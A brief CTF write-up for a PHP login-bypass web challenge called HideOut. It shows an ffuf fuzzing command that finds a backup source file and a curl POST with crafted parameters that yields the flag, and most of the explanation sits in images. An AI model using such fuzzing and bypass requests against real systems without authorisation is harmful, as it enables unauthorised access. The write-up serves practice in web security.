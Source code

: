 ```yaml
---
title: AirTech CTF '24 Final - Web - HideOut
date: '2024-03-02'
tags: ['AIRTECH24', 'WEB','PHP', 'HideOut','LOGINBYPASS']
draft: false
---
```

> “every thing is connected”

![challenge discription](/static/writeups/airtech/HideOut/chall_discription.png)
![index page](/static/writeups/airtech/HideOut/secretpass.png)


```bash
ffuf -u http://170.187.248.180:3001/FUZZ -w /usr/share/secLists/Discovery/Web-Content/Common-PHP-Filenames.txt
```
![fuzzing with ffuf](/static/writeups/airtech/HideOut/bak-file.png)
![php source code](/static/writeups/airtech/HideOut/source-code.png)


```bash
curl http://170.187.248.180:3001/index.php  --data 'secretpasswd=t&fani=t'
```

![flag](/static/writeups/airtech/HideOut/flag.png)


### ***kh4tt4k***

### Peace! 👋👋👋
